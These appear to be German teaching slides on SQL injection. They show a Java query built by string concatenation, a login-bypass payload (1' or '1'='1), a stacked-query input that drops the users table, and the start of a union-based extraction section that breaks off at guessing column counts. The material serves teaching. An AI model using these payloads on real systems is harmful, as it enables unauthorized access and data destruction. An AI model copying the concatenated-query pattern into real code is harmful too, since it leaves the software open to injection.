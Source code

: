 ## Simples Beispiel

* Kino-Portal:
* Login: https://kino.local/login.php?username=ah&password=pw

Hintergrund: SQL Operation wird mit String Concat gebaut

``` Java
query = "select * from users ";
query = query + "where username = " +username;
query = query + " and password = " +password +’ limit 1;
```

## Simples Beispiel

Angreifer wählt Passwort:

```
1’ or ‘1’=’1
```

Ergebnis:

``` SQL
select * from users 
where username = ‘ah‘ and password = ‘1’ or ‘1’ = ‘1’ limit 1;
```

## Stacked Queries

* URL: http://snikt.net/test.php?id=1
* Operation: select * from articles where id=1

``` SQL
# Eingabe
`1; drop table users; --

# Ergebnis
select * from articles wehre id=1;drop table users;--
```

## Union-Based SQLi

* Weboberfläche
* Ergebnis wird in einer Tabelle angezeigt

```
# Datenquelle:
select Name, Phone, Address FROM users where user_id=1
```

## Versuch mehr Daten zu extrahieren

* Spaltenanzahl erraten

